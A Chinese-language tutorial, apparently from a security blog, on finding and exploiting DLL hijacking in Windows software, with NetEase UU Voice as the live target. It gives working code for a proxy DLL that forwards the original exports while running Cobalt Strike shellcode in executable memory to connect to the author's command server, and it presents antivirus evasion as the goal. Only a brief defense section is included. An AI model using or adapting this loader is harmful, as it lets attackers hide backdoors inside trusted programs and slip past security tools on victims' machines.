## DLL 劫持快速挖掘入门教程

- - -

# [0x01 前言](#toc_0x01)

为什么最近要研究这块呢 因为最近在攻防演练时发现上传的普通 CS 马会直接被杀掉于是想做一做免杀，经过搜索有一种叫做白加黑的利用技术，其原理通俗易懂就是通过正经的 EXE 程序加载带有木马的 DLL，杀毒软件发现白程序是安全的就不管了，大大降低了免杀难度，于是乎就有了这篇文章。

# [0x02 DLL 介绍](#toc_0x02-dll)

既然想挖掘 DLL 劫持 那么首先我们需要知道 DLL 是个什么东西

> 动态链接库（英语：Dynamic-link library，缩写为 DLL）是微软公司在微软视窗操作系统中实现共享函数库概念的一种实现方式。这些库函数的扩展名是.DLL、.OCX（包含 ActiveX 控制的库）或者.DRV（旧式的系统驱动程序）。所谓动态链接，就是把一些经常会共用的代码（静态链接的 OBJ 程序库）制作成 DLL 档，当可执行文件调用到 DLL 档内的函数时，Windows 操作系统才会把 DLL 档加载存储器内，DLL 档本身的结构就是可执行档，当程序有需求时函数才进行链接。透过动态链接方式，存储器浪费的情形将可大幅降低。静态链接库则是直接链接到可执行文件。DLL 的文件格式与视窗 EXE 文件一样——也就是说，等同于 32 位视窗的可移植执行文件（PE）和 16 位视窗的 New Executable（NE）。作为 EXE 格式，DLL 可以包括源代码、数据和资源的多种组合。
> 
> ————维基百科

简单点来讲 DLL 类似于一个独立的程序，其他程序需要的时候就可以调用，不需要就不用的一种模块，当然这里既然有动态链接库就会有静态库，这里就不展开讲了，有兴趣的朋友们可以自行了解下。

# [0x03 DLL 劫持原理](#toc_0x03-dll)

刚才我们上面说到劫持就是要想办法让白程序加载我们的黑 DLL，那么问题来了，程序是怎么如何从文件中找到需要加载的 DLL 呢  
这里我们给出一张图片，其实 Windows 下 DLL 的调用是遵循下面的顺序  
[](https://storage.tttang.com/media/attachment/2022/01/16/cef73b8e-502d-4fa1-824b-2e4021beaeeb.png)

-   *`Known DLL`* 是指在 windows7 以上版本微软为了防御 DLL 劫持设置的一个规则，他们将一些容易被劫持的 DLL 写进了注册表里，那么凡是此项下的 DLL 文件就会被禁止从 EXE 自身所在的目录下调用，而只能从系统目录即 SYSTEM32 目录下调用路径为`HKLM\SYSTEM\CurrentControlSet\Control\SessionManager\KnownDLLs`

!\[image.png\]([](https://x1hy9-1302451185.cos.ap-chengdu.myqcloud.com/img/202108220015832.png)  
win7 以下的版本有其他的保护规则，可以自行了解下，我主要针对 win7 以上的 DLL 做劫持，那么上面的劫持原理大家应该也知道了，应用程序在寻找正常的 DLL 之前，我们写个恶意的 DLL 放在原 DLL 之前，让程序以为加载了原 DLL 其实加载的是恶意的 DLL  
由此可以引出几种 dll 劫持的形式：

1.  **直接将恶意 dll 暴力替换掉正常 dll，软件正常功能会受影响**
    
2.  **将恶意 dll 作为中间人，转发调用正常 dll 的导出函数，同时加入额外的恶意操作**
    
3.  **利用加载顺序的机制，让恶意 dll 先于正常 dll 加载**
    
4.  **利用软件本身缺失的 dll 加载恶意 dll**
    
5.  **更改环境变量或是.exe.manifest/.exe.local 文件实现 dll 重定向**
    
6.  **如果利用低权限劫持的 dll 文件，会被高权限程序加载运行，就是一个权限提升漏洞**
    

可以思考下上面的几种劫持方法中哪种比较容易上手

# [0x04 劫持不存在的 DLL](#toc_0x04-dll)

所需工具：**VS 2019 , ProcessMonitor**  
**ProcessMonitor（进程监视器）下载地址：**  
[https://docs.microsoft.com/en-us/sysinternals/downloads/procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)  
**VS 2019 下载地址：**  
[https://visualstudio.microsoft.com/zh-hans/vs/](https://visualstudio.microsoft.com/zh-hans/vs/) 工作负荷选择这两个就够了  
!\[image.png\]([](https://x1hy9-1302451185.cos.ap-chengdu.myqcloud.com/img/202108220016286.png)  
这里我们用官网最新版的[网易 UU 语音](https://uu.163.com/im/)作为示范  
首先打开下好的**ProcessMonitor**然后过滤可以像下面这样，选择进程名包含 UUVOI 的，path 包含 DLL  
[](https://storage.tttang.com/media/attachment/2022/01/16/673286e3-ccb3-4d3a-9b18-26abea1e5779.png)  
然后打开我们的语音程序可以看到进程已被监控  
[](https://storage.tttang.com/media/attachment/2022/01/16/33d97b5a-9f0f-4ad4-b309-dd265440b3f1.png)  
然后我们开始寻找\_`Known DLL`\_中不存在的 DLL  
可以看到我选择了`powrprof.dll` 首先程序先搜索了当前目录，result 返回了不存在该名称，于是去 system32 下开始搜索，终于搜到了，然后开始加载了  
[](https://storage.tttang.com/media/attachment/2022/01/16/f3d8d56b-f450-43c7-847c-79046f43cd5e.png)  
我们再看下调用的堆栈确实调用了 loadlibrary 相关的 API  
[](https://storage.tttang.com/media/attachment/2022/01/16/2c33509f-35ce-416e-b7b1-14e50e1280d6.png)  
为什么我们需要找一个有这个相关 API 的 DLL 呢  
是因为如果该 dll 的调用栈中存在有 **LoadLibrary(Ex)**，说明这个 DLL 是被进程所动态加载的。在这种利用场景下，伪造的 DLL 文件不需要存在任何导出函数即可被成功加载，即使加载后进程内部出错，也是在 DLL 被成功加载之后的事情。

##### [加载 dll 动态库时 LoadLibrary 与 LoadLibraryEx 的区别\*\*](#toc_dllloadlibraryloadlibraryex)

> 若 DLL 不在调用方的同一目录下，可以用 LoadLibrary(L"DLL 绝对路径") 加载。  
> 但若被调 DLL 内部又调用另外一个 DLL，此时调用仍会失败。解决办法是用 LoadLibraryEx：  
> LoadLibraryEx(“DLL 绝对路径”, NULL, LOAD\_WITH\_ALTERED\_SEARCH\_PATH);  
> 通过指定 LOAD\_WITH\_ALTERED\_SEARCH\_PATH，让系统 DLL 搜索顺序从 DLL 所在目录开始。

那么开始编写恶意的 DLL 我们直接选择生成新 DLL 项目  
[](https://storage.tttang.com/media/attachment/2022/01/16/41107d7f-e747-4cc8-816f-38341b04a1eb.png)  
然后我们在进程装载的函数中添加我们的恶意命令 然后生成 DLL  
[](https://storage.tttang.com/media/attachment/2022/01/16/94192742-c434-4b13-a448-26e8140b92ec.png)  
如果程序是 64 位就用 64 调试器生成，反之 32 就用 X86 生成 将生成好的 DLL 放置到我们的语音程序目录下  
[](https://storage.tttang.com/media/attachment/2022/01/16/e50b8c0c-5c48-4b73-9683-ff7235fc7187.png)  
并将我们的 DLL 改名为刚才发现的 DLL 名称  
[](https://storage.tttang.com/media/attachment/2022/01/16/38da7b3d-3b74-4dcc-9c18-11a144c276a1.png)  
点开程序就能执行我们的恶意命令了  
[](https://storage.tttang.com/media/attachment/2022/01/16/631547d3-6383-42a5-b846-8169fb748748.png)

# [0x05 劫持已存在的 DLL](#toc_0x05-dll)

这里我又找到了一个可以劫持的 DLL，但确实存在于文件夹中  
[](https://storage.tttang.com/media/attachment/2022/01/16/9c74e2c6-9d09-42c6-8c63-f66f71f0775c.png)  
我们还是用上面的方法生成 DLL 然后直接替换成恶意的 DLL  
[](https://storage.tttang.com/media/attachment/2022/01/16/68b03660-c996-42fe-96ec-7b3dd1d6a3f1.png)  
然后我们再次点击主程序 这次可以看到虽然弹出了计算器但是由于我们写的 DLL 并没有实现原 DLL 的功能所以直接报错了所以我个人并不是很推荐这种方式，那么有没有什么办法可以及不破坏原本 DLL 又可以执行恶意 DLL 呢？

> [](https://storage.tttang.com/media/attachment/2022/01/16/bb49fb65-9461-4ecd-9624-c63b0801a13e.png)

# [0x06 DLL 劫持转发](#toc_0x06-dll)

使用工具：**AheadLib，VS2019**  
注：这里我没用使用网易 UU 是因为原本挖到了一个劫持但是程序是 64 那个 DLL 是 32 位的做转发会报错:(  
我们通过一个转发的思想使恶意的 DLL 将原有的函数转发到原 DLL 中并且释放恶意代码  
[](https://storage.tttang.com/media/attachment/2022/01/16/617e1b3e-67ad-46f8-9fce-b89a80080ef4.png)  
为了更好的理解，我们使用 VS2019 新建一个控制台应用  
代码如下：

```plain
#include <iostream>
#include <Windows.h>
using namespace std;

int main()
{
    // 定义一个函数类 DLLFUNC
    typedef void(*DLLFUNC)(void);
    DLLFUNC GetDllfunc1 = NULL;
    DLLFUNC GetDllfunc2 = NULL;
    // 指定动态加载 dll 库
    HINSTANCE hinst = LoadLibrary(L"TestDll.dll");
    if (hinst != NULL) {
        // 获取函数位置
        GetDllfunc1 = (DLLFUNC)GetProcAddress(hinst, "msg");
        GetDllfunc2 = (DLLFUNC)GetProcAddress(hinst, "error");
    }
    if (GetDllfunc1 != NULL) {
        //运行 msg 函数
        (*GetDllfunc1)();
    }
    else {
        MessageBox(0, L"Load msg function Error,Exit!", 0, 0);
        exit(0);
    }
    if (GetDllfunc2 != NULL) {
        //运行 error 函数
        (*GetDllfunc2)();
    }
    else {
        MessageBox(0, L"Load error function Error,Exit!", 0, 0);
        exit(0);
    }
    printf("Success");
}
```

然后我们再新建一个 DLL 项目  
代码如下：

```plain
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <Windows.h>

void msg() {
    MessageBox(0, L"I am msg function!", 0, 0);
}

void error() {
    MessageBox(0, L" I am error function!", 0, 0);
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

framework.h 导出函数如下：

```plain
#pragma once
#define WIN32_LEAN_AND_MEAN             // 从 Windows 头文件中排除极少使用的内容
// Windows 头文件
#include <windows.h>
extern "C" __declspec(dllexport) void msg(void);
extern "C" __declspec(dllexport) void error(void);
```

正常完整执行的话，最终程序会输出 Success  
[](https://storage.tttang.com/media/attachment/2022/01/16/50a14ea5-b12e-484b-b0cf-7d061a2c01ce.png)  
我们开始劫持操作首先通过 AheadLib 工具导入原 Testdll  
选择直接转发生成 cpp 文件

> 区别就是直接转发函数，我们只能控制 DllMain 即调用原 DLL 时触发的行为可控  
> 即时调用函数，可以在处理加载 DLL 时，调用具体函数的时候行为可控，高度自定义触发点，也称用来 hook 某些函数，获取到参数值。

[](https://storage.tttang.com/media/attachment/2022/01/16/1363fe75-be94-49d0-8d15-1a6d40f46ff6.png)  
然后我们将 cpp 代码复制到 DLL 项目中这里我们可以看到箭头所指的就是转发命令，原 DLL 有两个函数 error 和 msg 然后我们给转发到了 TestDLLOrg 这个 DLL 上  
[](https://storage.tttang.com/media/attachment/2022/01/16/31cd510b-8f4a-471d-bf9d-3ac365287650.png)  
我们直接生成 DLL 然后复制到目录下需要将恶意 DLL 改成原 DLL 名字，将原 DLL 改成转发所指的 DLL 名字  
来自于上面工具自定义的名字  
[](https://storage.tttang.com/media/attachment/2022/01/16/dc690de3-16e8-41fa-b557-6f08bbe68a87.png)  
[](https://storage.tttang.com/media/attachment/2022/01/16/5d9eb4b7-9665-48d0-a19d-ed01fa231e89.png)  
运行程序就会发现恶意代码执行了而且还正常运行  
[](https://storage.tttang.com/media/attachment/2022/01/16/597d99db-eb46-499c-8758-ca4289cc6a9a.png)

# [0x07 CS 上线](#toc_0x07-cs)

在网易 UU 语音中我们找到可劫持文件`voice_helper.dll`然后就可以开始准备上线了，利用 0x06 的知识准备好要转发的代码  
[](https://storage.tttang.com/media/attachment/2022/01/16/01e2dd17-79c7-4cfc-9a8e-6bea52554bf2.png)  
我们打开自己的 cs 服务器生成 shellcode  
[](https://storage.tttang.com/media/attachment/2022/01/16/165a5577-18c9-42a6-9fc0-ae962e73b85e.png)  
然后打开复制 shellcode  
[](https://storage.tttang.com/media/attachment/2022/01/16/ab7e2b65-c67e-406e-b740-10b09829a1f6.png)

然后创建 DLL 项目将代码复制进去如下：

```plain
#include "pch.h"
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
#include <Windows.h>

#include <stdlib.h>
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////


#pragma comment(linker, "/EXPORT:RegisterHookListener=voice_helperOrg.RegisterHookListener,@1")
#pragma comment(linker, "/EXPORT:RemoveAllListeners=voice_helperOrg.RemoveAllListeners,@2")
#pragma comment(linker, "/EXPORT:StartHelperService=voice_helperOrg.StartHelperService,@3")
#pragma comment(linker, "/EXPORT:StopHelperService=voice_helperOrg.StopHelperService,@4")
HANDLE hThread = NULL;
typedef void(__stdcall* JMP_SHELLCODE)();
/* length: 894 bytes */
unsigned char shellcode[] = "\x39\x00\x51\x09\xbf\x6d 自己服务器的 shellcode..";


DWORD WINAPI jmp_shellcode(LPVOID pPara)
{
    LPVOID lpBase = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(lpBase, shellcode, sizeof(shellcode));
    JMP_SHELLCODE jmp_shellcode = (JMP_SHELLCODE)lpBase;
    jmp_shellcode();
    return 0;
}

////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////


////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        DisableThreadLibraryCalls(hModule);
        hThread = CreateThread(NULL, 0, jmp_shellcode, 0, 0, 0);

    }
    else if (dwReason == DLL_PROCESS_DETACH)
    {
    }

    return TRUE;
}


////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```

然后把生成的 DLL 复制到目录下，还是老样子把原 DLL 改名成 Org 恶意的则是原名  
[](https://storage.tttang.com/media/attachment/2022/01/16/8193ce98-8842-46c8-a128-b699327c8854.png)  
我们点击主程序就直接上线了，当然大家可以自行做一些静态免杀和混淆处理，这里就不展开讲了  
[](https://storage.tttang.com/media/attachment/2022/01/16/3656399c-442d-4bee-b0ac-677fdcb6583d.png)  
这里我们再做一下静态免杀很简单的就绕过了常见的安全软件  
[](https://storage.tttang.com/media/attachment/2022/01/16/a4f6b8e7-e8fd-43cc-a209-a150eef1b4cd.png)

# [0x08 **防范 DLL 劫持**](#toc_0x08-dll)

可以在程序运行调用 DLL 时验证其 MD5 值等等方案

> 对于 DLL 劫持漏洞产生的原因，并不能单一的归咎于微软，只能说这是微软的一个“设计缺陷”，要从根本上防御 DLL 劫持漏洞，除了微软提供的“安全 DLL 搜索模式”和“KnownDLLs 注册表项”机制保护 DLL 外，开发人员必须要做更多来保护应用程序自身。开发过程中，调用 LoadLibrary，LoadLibraryEx 等会进行模块加载操作的函数时，使用模块的物理路径作为参数。在程序调用 DLL 时使用“白名单” + “签名”进行 DLL 的验证。不过即使使用了这些防御措施，DLL 劫持漏洞依旧可能会存在，更何况目前很多厂商对于 DLL 劫持漏洞都是持“忽略”的态度。

# [0x09 参考文章](#toc_0x09)

> [https://www.cnblogs.com/diligenceday/p/14121606.html](https://www.cnblogs.com/diligenceday/p/14121606.html)  
> [http://blog.leanote.com/post/snowming/1b055cd2083b](http://blog.leanote.com/post/snowming/1b055cd2083b)  
> [https://hosch3n.github.io/2021/06/29/%E5%88%A9%E7%94%A8dll%E5%8A%AB%E6%8C%81%E5%AE%9E%E7%8E%B0%E5%85%8D%E6%9D%80%E4%B8%8E%E7%BB%B4%E6%9D%83/](https://hosch3n.github.io/2021/06/29/%E5%88%A9%E7%94%A8dll%E5%8A%AB%E6%8C%81%E5%AE%9E%E7%8E%B0%E5%85%8D%E6%9D%80%E4%B8%8E%E7%BB%B4%E6%9D%83/)  
> [http://cn-sec.com/archives/128263.html](http://cn-sec.com/archives/128263.html)  
> [https://www.cnblogs.com/ay-a/p/8762951.html](https://www.cnblogs.com/ay-a/p/8762951.html)  
> [https://v2as.com/article/3b4a188d-5cbf-4394-b019-5c9a26f47d91](https://v2as.com/article/3b4a188d-5cbf-4394-b019-5c9a26f47d91)
